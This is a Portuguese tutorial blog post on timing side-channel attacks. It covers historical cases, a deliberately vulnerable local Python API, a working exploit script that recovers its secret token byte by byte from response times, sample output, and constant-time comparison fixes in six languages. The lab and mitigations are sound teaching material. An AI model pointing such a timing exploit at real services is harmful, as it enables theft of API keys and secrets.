

Imagine tentar abrir um cofre de segredo giratório ouvindo o barulho dos pinos internos. A cada disco posicionado no número correto, a mecânica emite um pequeno estalo antes dos demais. Girar o disco devagar e escutar esse retorno permite deduzir o segredo número a número, sem testar todas as combinações possíveis.

Em software, esse clique equivale à variação no tempo de resposta da CPU.

Um token aleatório de 32 caracteres alfanuméricos oferece 62<sup>32</sup> combinações possíveis na força bruta cega. Uma verificação ingênua com `if (token == secret)`, porém, reduz esse custo de busca: a comparação encerra no primeiro byte divergente e rejeita a requisição mais rápido. Medindo o tempo de resposta do servidor, um invasor consegue testar e confirmar cada caractere individualmente.

## 1. Contextualização histórica: casos reais de canais laterais

Ataques temporais pertencem à classe dos canais laterais (side-channel attacks). Em vez de atacarem a fundamentação matemática de cifras como RSA ou AES, canais laterais exploram características físicas da execução do software, como variações no consumo de energia, emissão eletromagnética e tempo de resposta.

### A descoberta de Paul Kocher (1996)
O conceito foi formalizado por [Paul Kocher no artigo "Timing Attacks on Implementations of Diffie-Hellman, RSA, DSS, and Other Systems" (CRYPTO '96)](https://www.paulkocher.com/doc/TimingAttacks.pdf). Kocher demonstrou que a exponenciação modular usada em criptografia de chave pública levava tempos diferentes conforme o bit da chave privada fosse `0` ou `1`. Medindo o tempo total das assinaturas, era possível deduzir a chave privada sem quebrar as propriedades da fatoração de inteiros.

### A quebra do OpenSSL em rede (2003)
Em 2003, [David Brumley e Dan Boneh publicaram "Remote Timing Attacks are Practical"](https://crypto.stanford.edu/~dabo/papers/ssl-timing.pdf), frequentemente citado em análises práticas de canais laterais, como na [discussão do Security StackExchange sobre ataques temporais na internet](https://security.stackexchange.com/questions/183796/are-there-any-successful-cases-of-timing-attacks-over-the-internet). 

Brumley e Boneh extraíram a chave privada RSA de um servidor Apache com OpenSSL em rede local e entre prédios universitários. O algoritmo de decodificação RSA usava a otimização do Teorema Chinês do Resto (CRT) com multiplicação de Montgomery, cujo tempo de processamento variava conforme os fatores primos *p* e *q*. O trabalho demonstrou que o ruído de rede pode ser filtrado com amostragem estatística.

Em 2009, Scott Crosby, Dan Wallach e Rudolf Riedi aprofundaram a pesquisa em [Opportunities and Limits of Remote Timing Attacks (USENIX Security / Rice University)](https://www.usenix.org/legacy/event/sec09/tech/full_papers/crosby.pdf), medindo variações de microssegundos pela internet pública por meio de diagramas de caixa (box plots) e testes de hipótese (*teste t de Student*).

### O ataque ao bootloader do Xbox 360 (2007)
Em 2007, a Microsoft atualizou o dashboard do console Xbox 360 para corrigir uma falha no hipervisor (o exploit King Kong) e usou fusíveis lógicos de hardware (*eFuses*) para impedir o retorno a versões anteriores. Pesquisadores de engenharia reversa passaram então a investigar canais laterais.

Como documentado por [Nate Lawson no Root Labs](https://rdist.root.org/2010/01/07/timing-independent-array-comparison/) e revisado em [A Survey of Microarchitectural and Software Timing Attacks](https://eprint.iacr.org/2016/613.pdf), a validação de integridade do bootloader usava a função `memcmp` da biblioteca padrão em C para comparar a assinatura HMAC-SHA1. Como `memcmp` realiza saída prematura (*early exit*), a verificação rejeitava mais rápido qualquer assinatura cujo primeiro byte estivesse incorreto.

Pesquisadores monitoraram o barramento da placa para medir o tempo até o sinal elétrico de reset gerado no erro de validação. Ao testar valores para cada byte e observar qual deles atrasava o sinal em microssegundos, recuperaram o HMAC completo. Isso permitiu autenticar blocos alterados do bootloader, rebaixar o kernel para uma versão com falhas conhecidas e executar código próprio no console.

### Execução especulativa e o Spectre (2018)
Em 2018, a publicação de [Spectre Attacks: Exploiting Speculative Execution (Kocher et al.)](https://spectreattack.com/spectre.pdf) e a divulgação da vulnerabilidade [Spectre (CVE-2017-5753)](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)), junto ao Meltdown, mostraram que o canal temporal também atinge a microarquitetura dos processadores.

Para acelerar o processamento, CPUs modernas (Intel, AMD, ARM) preveem o resultado de desvios condicionais e executam instruções antes da confirmação do caminho correto (*execução especulativa*). Se o desvio foi previsto incorretamente, a CPU descarta as alterações nos registradores, mas os dados lidos continuam armazenados na memória cache.

Com a técnica *Flush+Reload*, um processo mede o tempo de leitura de endereços de memória: se a leitura for rápida, o dado já estava no cache L1 ou L2; se for lenta, veio da RAM. Esse canal levou navegadores como Chrome, Firefox e Safari a [reduzirem a precisão de temporizadores JavaScript como performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#reduced_time_precision) e injetarem ruído artificial para dificultar medições entre origens diferentes.

## 2. Como funcionam os ataques temporais

Em aplicações web e microsserviços, a vulnerabilidade aparece com frequência na validação de igualdade de strings, como discutido no artigo de [Manoj Neupane no Medium sobre Timing Attacks](https://medium.com/@manojneupane787/timing-attacks-the-small-leak-that-can-expose-big-secrets-41f80998399b) e no [Stack Overflow em Português sobre Timing Attacks](https://pt.stackoverflow.com/questions/207650/o-que-%C3%A9-timing-attack-e-onde-ele-se-aplica).

### Comparação com saída antecipada (early exit)

A implementação padrão de comparação de strings na maioria das linguagens encerra o loop assim que encontra uma divergência:

```python
# Como operadores como '==' ou 'strcmp' operam internamente:
def early_exit_compare(user_input: str, secret: str) -> bool:
    if len(user_input) != len(secret):
        return False
    
    for i in range(len(user_input)):
        if user_input[i] != secret[i]:
            return False  # <--- SAÍDA PREMATURA (EARLY EXIT)!
            
    return True
```

Para desempenho geral, interromper o loop no primeiro byte incorreto poupa ciclos de CPU. Em rotas de autenticação, essa otimização introduz uma relação direta entre o tempo de resposta e o número de caracteres corretos:

<div class="my-6 p-5 rounded-xl bg-slate-900 border border-slate-800 text-center shadow-inner">
    <span class="text-xs uppercase tracking-widest text-slate-500 font-mono block mb-2">Equação do Vazamento Temporal</span>
    <div class="font-mono text-lg md:text-xl font-bold text-orange-400">
        Tempo(k) = T_base + k · Δt
    </div>
</div>

Onde:
- `T_base` é o tempo base de rede e processamento da requisição;
- `k` é o número de caracteres corretos no início da string;
- `Δt` é o tempo adicional gasto pela CPU em mais uma iteração do loop.

Se o segredo for `"FLAG"`:
1. Ao enviar `"AAAA"`, a comparação falha no índice 0 (`'A' != 'F'`). Tempo: ≈ 1.0 ms.
2. Ao enviar `"FAAA"`, a primeira posição coincide (`'F' == 'F'`) e a checagem falha no índice 1 (`'A' != 'L'`). Tempo: ≈ 2.0 ms.
3. Ao enviar `"FLAA"`, o loop executa mais uma iteração antes de falhar. Tempo: ≈ 3.0 ms.

### Complexidade de busca

Essa relação muda a ordem de grandeza do ataque:

- Força bruta cega: um token de 16 caracteres alfanuméricos com sublinhado (63 opções por caractere) exige testar:
  <div class="my-3 p-3 rounded-lg bg-slate-900 border border-slate-800 text-center font-mono text-base font-semibold text-orange-400">
      63<sup>16</sup> ≈ 4,09 × 10<sup>28</sup> combinações
  </div>

- Busca caractere a caractere: como o tempo de resposta indica o acerto de cada posição, o invasor testa cada caractere individualmente:
  <div class="my-3 p-3 rounded-lg bg-slate-900 border border-slate-800 text-center font-mono text-base font-semibold text-emerald-400">
      63 × 16 = 1.008 requisições
  </div>

### Comparação visual dos tempos de resposta

O diagrama abaixo ilustra o comportamento do tempo de resposta na verificação vulnerável comparado à verificação segura:

<div class="my-6 rounded-xl overflow-hidden border border-slate-700 shadow-xl bg-white p-2">
    
</div>

Na curva com saída prematura (a), cada acerto adiciona um degrau de tempo (T₀ + k · Δt). Na comparação em tempo constante (b), a rotina percorre todas as posições independentemente de onde ocorra a divergência, mantendo o tempo estável e sem relação com os caracteres da chave.

## 3. Implementação prática: teste em API local

Para testar a lógica do ataque em código executável, montei um ambiente de laboratório em Python.

<div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-orange-500 text-slate-300">
    <div class="flex items-center gap-2 text-orange-400 font-bold mb-1">
        <i data-lucide="info" class="w-4 h-4"></i> Código do laboratório
    </div>
    <p class="text-sm text-slate-300 mb-0">
        Os arquivos completos estão disponíveis no <a href="https://github.com/hertonnn/hertonnn.github.io/tree/main/case_studies/timing_attack" target="_blank" rel="noopener noreferrer" class="text-orange-400 underline font-semibold">diretório case_studies/timing_attack no GitHub</a>.
    </p>
</div>

### 3.1 Servidor vulnerável (`vulnerable_api.py`)

O servidor abaixo recebe requisições `POST /verify` com o cabeçalho `X-API-Key` e valida a chave com saída antecipada:

```python
import time
import json
from http.server import HTTPServer, BaseHTTPRequestHandler

SECRET_TOKEN = "FLAG_SEC_2026"
HOST = "127.0.0.1"
PORT = 8000

BASE_DELAY = 0.004       # 4ms ao confirmar o comprimento correto
CHAR_DELAY = 0.008       # 8ms por caractere correto correspondido

def vulnerable_compare(provided: str, secret: str) -> bool:
    # 1. Vazamento do comprimento:
    if len(provided) != len(secret):
        return False

    # 2. Vazamento caractere a caractere (Early-Exit):
    matched = 0
    for c_prov, c_sec in zip(provided, secret):
        if c_prov == c_sec:
            matched += 1
        else:
            break

    # Custo de execução proporcional aos caracteres validados:
    # Tempo = T_base + k * Delta_t
    time.sleep(BASE_DELAY + matched * CHAR_DELAY)

    return matched == len(secret)

class TimingAttackHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == "/verify":
            api_key = self.headers.get("X-API-Key", "")
            is_valid = vulnerable_compare(api_key, SECRET_TOKEN)
            
            self.send_response(200 if is_valid else 401)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            
            payload = {
                "authenticated": is_valid,
                "message": "Acesso concedido!" if is_valid else "Token invalido."
            }
            self.wfile.write(json.dumps(payload).encode("utf-8"))
        else:
            self.send_response(404)
            self.end_headers()

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    server = HTTPServer((HOST, PORT), TimingAttackHandler)
    print(f"[*] API Vulnerável ativa em http://{HOST}:{PORT}/verify")
    server.serve_forever()
```

### 3.2 Script de exploração (`exploit.py`)

O script atua em duas etapas:
1. Comprimento do segredo: testa comprimentos de 1 a 16 usando um caractere sentinela (`"!" * length`). O tamanho correto entra na comparação interna e apresenta tempo superior às falhas imediatas de `len`.
2. Extração caractere a caractere: testa o conjunto de caracteres para cada posição com duas técnicas:
   - Filtragem por mínimo (`min`): a menor latência entre N amostras isola o tempo da aplicação, reduzindo o ruído do escalonador do sistema operacional e de buffers de rede.
   - Parada antecipada adaptativa (early-stop): mede uma linha de base para a posição; assim que um caractere atinge o limiar esperado (`>= baseline + limiar`), o script confirma a letra e avança para a próxima.

```python
import time
import string
import urllib.request
import urllib.error

TARGET_URL = "http://127.0.0.1:8000/verify"
CHARSET = string.ascii_uppercase + string.digits + "_"
SAMPLES_PER_CHAR = 3
CHAR_DELAY_ESTIMATE = 0.008

def measure_latency(candidate_key: str, samples: int = SAMPLES_PER_CHAR) -> float:
    times = []
    for _ in range(samples):
        req = urllib.request.Request(
            TARGET_URL,
            method="POST",
            headers={"X-API-Key": candidate_key, "User-Agent": "TimingAttack-POC"}
        )
        t_start = time.perf_counter()
        try:
            with urllib.request.urlopen(req) as resp:
                resp.read()
        except urllib.error.HTTPError:
            pass  # 401 Unauthorized é a resposta esperada para chutes incorretos
        times.append(time.perf_counter() - t_start)
    return min(times)

def determine_length(max_len: int = 16) -> int:
    print("[*] Fase 1: Identificando o comprimento do segredo...")
    times_by_length = {}
    for length in range(1, max_len + 1):
        dummy_guess = "!" * length
        min_time = measure_latency(dummy_guess, samples=3)
        times_by_length[length] = min_time
        print(f"    - Testando comprimento {length:2d}: {min_time * 1000:6.2f} ms")
    return max(times_by_length, key=times_by_length.get)

def crack_secret(token_length: int) -> str:
    print(f"[*] Fase 2: Iniciando extração dos {token_length} caracteres...")
    recovered = ""
    for pos in range(token_length):
        padding = "!" * (token_length - len(recovered) - 1)
        baseline = measure_latency(recovered + "!" + padding, samples=3)
        threshold = baseline + (CHAR_DELAY_ESTIMATE * 0.65)
        
        best_candidate = None
        max_min_val = -1.0
        for char in CHARSET:
            candidate_key = recovered + char + padding
            val = measure_latency(candidate_key, samples=3)
            if val > max_min_val:
                max_min_val = val
                best_candidate = char
            if val >= threshold:  # Early-Stop adaptativo!
                best_candidate = char
                break
        recovered += best_candidate
        print(f"    [Posição {pos:2d}/{token_length}] Caractere: '{best_candidate}' | Tempo: {max_min_val * 1000:6.2f} ms | Atual: {recovered}")
    return recovered
```

### 3.3 Execução do script

A execução do `exploit.py` contra o servidor exibe o seguinte retorno no terminal:

```text
===========================================================
  TIMING ATTACK PROOF OF CONCEPT (POC)
  Alvo: http://127.0.0.1:8000/verify
===========================================================
[*] Fase 1: Identificando o comprimento do segredo...
    - Testando comprimento  1:   1.83 ms
    - Testando comprimento  2:   1.26 ms
    ...
    - Testando comprimento 12:   1.20 ms
    - Testando comprimento 13:   5.43 ms
    - Testando comprimento 14:   1.68 ms
    - Testando comprimento 15:   1.25 ms
    - Testando comprimento 16:   1.19 ms
[+] Comprimento detectado: 13 caracteres

[*] Fase 2: Iniciando extração dos 13 caracteres...
    [Posição  0/13] Caractere: 'F' | Tempo:  13.99 ms | Varredura:  6/37 | Atual: F
    [Posição  1/13] Caractere: 'L' | Tempo:  21.67 ms | Varredura: 12/37 | Atual: FL
    [Posição  2/13] Caractere: 'A' | Tempo:  29.63 ms | Varredura:  1/37 | Atual: FLA
    [Posição  3/13] Caractere: 'G' | Tempo:  37.73 ms | Varredura:  7/37 | Atual: FLAG
    [Posição  4/13] Caractere: '_' | Tempo:  45.69 ms | Varredura: 37/37 | Atual: FLAG_
    [Posição  5/13] Caractere: 'S' | Tempo:  53.61 ms | Varredura: 19/37 | Atual: FLAG_S
    [Posição  6/13] Caractere: 'E' | Tempo:  61.66 ms | Varredura:  5/37 | Atual: FLAG_SE
    [Posição  7/13] Caractere: 'C' | Tempo:  69.93 ms | Varredura:  3/37 | Atual: FLAG_SEC
    [Posição  8/13] Caractere: '_' | Tempo:  77.86 ms | Varredura: 37/37 | Atual: FLAG_SEC_
    [Posição  9/13] Caractere: '2' | Tempo:  86.00 ms | Varredura: 29/37 | Atual: FLAG_SEC_2
    [Posição 10/13] Caractere: '0' | Tempo:  93.80 ms | Varredura: 27/37 | Atual: FLAG_SEC_20
    [Posição 11/13] Caractere: '2' | Tempo: 102.86 ms | Varredura: 29/37 | Atual: FLAG_SEC_202
    [Posição 12/13] Caractere: '6' | Tempo: 109.95 ms | Varredura: 33/37 | Atual: FLAG_SEC_2026

===========================================================
[+] SUCESSO! Token reconstruído: 'FLAG_SEC_2026'
[+] Tempo total de exploração: 52.55 segundos
[*] Validando token recuperado com o alvo...
[+] Resposta do servidor (HTTP 200): {"authenticated": true, "message": "Acesso concedido!"}
===========================================================
```

O tempo de resposta sobe cerca de 8 ms a cada caractere deduzido. Na última posição, a requisição dura aproximadamente 110 ms.

## 4. Limitações da simulação e condições reais

Os atrasos introduzidos no laboratório seguem a abordagem pedagógica de exercícios práticos da área:

<div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-amber-500 text-slate-300">
    <div class="flex items-center gap-2 text-amber-400 font-bold mb-1">
        <i data-lucide="alert-triangle" class="w-4 h-4"></i> Convenção do Cryptopals
    </div>
    <p class="text-sm text-slate-300 mb-0">
        A adição de alguns milissegundos por caractere no laboratório replica o formato dos desafios práticos do <a href="https://cryptopals.com/sets/4/challenges/31" target="_blank" rel="noopener noreferrer" class="text-amber-400 underline font-semibold">Cryptopals Crypto Challenges (Challenge 31: "Implement and break HMAC-SHA1 with an artificial timing leak")</a> e do <a href="https://cryptopals.com/sets/4/challenges/32" target="_blank" rel="noopener noreferrer" class="text-amber-400 underline font-semibold">Cryptopals Challenge 32: "Break HMAC-SHA1 with a less artificial timing leak"</a>. Essa calibração demonstra o comportamento do ataque em segundos na máquina local sem exigir centenas de milhares de requisições de rede.
    </p>
</div>

### Medição em nanossegundos, microssegundos e milissegundos

A viabilidade de detectar variações temporais varia conforme o posicionamento na rede e o tipo de operação:

1. Ambiente local e hardware (0,3 ns a 10 ns):
   Processos que executam na mesma CPU conseguem ler registradores de contagem de clock, como as instruções x86 `RDTSC` e `RDTSCP`, com precisão de fração de nanossegundo. Ataques microarquiteturais como Spectre e Meltdown medem se o acesso à memória levou cerca de 4 ciclos de clock (dado no cache L1) ou centenas de ciclos (dado na RAM). Esse canal levou navegadores como Chrome, Firefox e Safari a [reduzirem a resolução de performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#reduced_time_precision) e aplicarem jitter artificial para mitigar medições em JavaScript.

2. Rede local (LAN, 1 µs a 50 µs):
   Em redes locais de baixa latência, o jitter de pacotes costuma ficar em dezenas de microssegundos. Como demonstrado por Brumley e Boneh (2003) no OpenSSL e detalhado em [Opportunities and Limits of Remote Timing Attacks (Crosby et al.)](https://www.usenix.org/legacy/event/sec09/tech/full_papers/crosby.pdf), a Lei dos Grandes Números garante que o erro padrão da média caia com <em>σ</em> / √<em>N</em>. Coletar amostras suficientes (de 5.000 a 20.000 requisições por tentativa) reduz o ruído da rede e isola diferenças de microssegundos.

3. Internet pública (WAN):
   - Comparação curta de strings (`memcmp` de nanossegundos): a latência oscila bastante entre roteadores na internet, exigindo filtros estatísticos e amostragens volumosas para isolar o sinal. Em arquiteturas em nuvem onde serviços compartilham a mesma região ou data center, o tempo de ida e volta cai abaixo de 1 ms e o jitter diminui, tornando a extração mais rápida.
   - Operações computacionalmente lentas (milissegundos): quando o servidor executa rotinas pesadas, a diferença no tempo de processamento supera com facilidade a latência de trânsito, exigindo poucas requisições:
     - Validação de senhas com funções de derivação como bcrypt, Argon2 ou PBKDF2 (100 ms a 300 ms). Se o sistema rejeita nomes de usuários inexistentes antes de calcular o hash, vaza-se a existência de contas, como demonstrado no laboratório da [PortSwigger Web Security Academy: Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing).
     - Consultas a banco de dados sem índice adequado ou com varredura completa de tabela.
     - Operações de criptografia assimétrica (RSA ou curvas elípticas) em rotas de autenticação ou pagamento.

## 5. Prevenção: bibliotecas e arquitetura

Para mitigar ataques temporais, o código precisa adotar rotinas de comparação em tempo constante e padrões adequados de arquitetura.

### 5.1 Comparação em tempo constante

Para neutralizar o ataque, a rotina de comparação precisa executar o mesmo número de instruções de máquina independentemente de onde ocorra uma divergência entre os bytes.

Em vez de usar operadores com saída antecipada (`break` ou `return false`), acumula-se a diferença com operações binárias XOR (`^`) e OR (`|=`):

```c
// Implementação clássica de constant-time memcmp em C:
int constant_time_compare(const unsigned char *a, const unsigned char *b, size_t length) {
    unsigned char result = 0;
    for (size_t i = 0; i < length; i++) {
        result |= a[i] ^ b[i];  // Se houver qualquer bit divergente, result != 0
    }
    return result == 0;
}
```

Como o laço percorre toda a extensão de `length`, a CPU gasta o mesmo tempo na verificação, sem expor variações mensuráveis.

### 5.2 Implementação por linguagem

A recomendação prática é utilizar as funções já fornecidas e testadas pelas bibliotecas padrão:

#### Python
Use o módulo nativo `secrets` (a partir do Python 3.6) ou `hmac`:
```python
import secrets

# SEGURO: Comparação em tempo constante
if secrets.compare_digest(user_token, correct_token):
    # Acesso concedido
```

#### Node.js / JavaScript
Utilize o método nativo `crypto.timingSafeEqual`:
```javascript
const crypto = require('crypto');

function safeCompare(a, b) {
    const bufA = Buffer.from(a, 'utf8');
    const bufB = Buffer.from(b, 'utf8');

    // ATENÇÃO: timingSafeEqual exige buffers de mesmo tamanho!
    // Para não vazar o comprimento de 'b', podemos calcular o hash HMAC antes:
    if (bufA.length !== bufB.length) {
        return false;
    }
    return crypto.timingSafeEqual(bufA, bufB);
}
```

#### Java / Kotlin
Utilize `MessageDigest.isEqual`:
```java
import java.security.MessageDigest;
import java.nio.charset.StandardCharsets;

public boolean safeCompare(String userToken, String secretToken) {
    byte[] a = userToken.getBytes(StandardCharsets.UTF_8);
    byte[] b = secretToken.getBytes(StandardCharsets.UTF_8);
    
    // MessageDigest.isEqual é implementada em tempo constante desde o Java 6u17
    return MessageDigest.isEqual(a, b);
}
```

#### Go
Utilize o pacote `crypto/subtle`:
```go
import "crypto/subtle"

func SafeCompare(userToken, secretToken string) bool {
    // subtle.ConstantTimeCompare compara slices de bytes sem early-exit
    return subtle.ConstantTimeCompare([]byte(userToken), []byte(secretToken)) == 1
}
```

#### Rust
Utilize a crate oficial `subtle`:
```rust
use subtle::ConstantTimeEq;

fn safe_compare(user_token: &[u8], secret_token: &[u8]) -> bool {
    user_token.ct_eq(secret_token).into()
}
```

#### PHP
Utilize a função nativa `hash_equals` (disponível desde o PHP 5.6):
```php
if (hash_equals($secret_token, $user_token)) {
    // Acesso seguro garantido
}
```

### 5.3 Práticas de arquitetura

Além de alterar a comparação de strings, proteções em camadas reduzem a superfície de ataque:

1. Hash prévio com HMAC para evitar vazamento de comprimento:
   Se o token recebido tiver tamanho diferente do esperado, a verificação do comprimento pode responder mais rápido. Em verificações de webhooks (como no Stripe e no GitHub), a prática padrão é calcular o HMAC-SHA256 de ambos os valores com uma chave interna antes de comparar. Como a saída do SHA-256 possui sempre 32 bytes fixos, o tamanho original não é revelado.

2. Limite de requisições (rate limiting):
   Limitar tentativas de autenticação e validação de tokens a patamares baixos (por exemplo, 5 requisições por minuto por IP) dificulta ataques temporais remotos, que dependem de milhares de requisições para filtrar o ruído de rede.

3. Injeção de atraso aleatório:
   <div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-red-500 text-slate-300">
       <div class="flex items-center gap-2 text-red-400 font-bold mb-1">
           <i data-lucide="shield-alert" class="w-4 h-4"></i> Atraso aleatório não substitui tempo constante
       </div>
       <p class="text-sm text-slate-300 mb-0">
           Adicionar um atraso aleatório na resposta não impede o ataque. Ele apenas amplia a variância das medições. Pela Lei dos Grandes Números, a média do ruído converge conforme o número de amostras cresce, mantendo visível a diferença gerada pela saída antecipada. A solução adequada é o uso de comparações em tempo constante.
       </p>
   </div>

4. Enumeração de contas pelo tempo de resposta no login:
   Se a rota `/login` responder em 2 ms quando o usuário não existe e em 150 ms quando o usuário existe (devido ao cálculo de bcrypt ou Argon2), um invasor consegue listar contas cadastradas. Para equilibrar os caminhos, executa-se o cálculo de hash com uma senha fictícia mesmo quando o usuário não for encontrado no banco de dados.

## 6. Conclusão

Canais laterais mostram que a segurança depende tanto da lógica matemática quanto do tempo e dos recursos físicos gastos na execução. Uma verificação simples de igualdade com saída antecipada pode anular a proteção de tokens longos e chaves seguras. A mitigação consiste em usar funções de comparação em tempo constante nativas das linguagens, normalizar o tamanho de entradas com hashes e aplicar limites de requisição em rotas sensíveis.
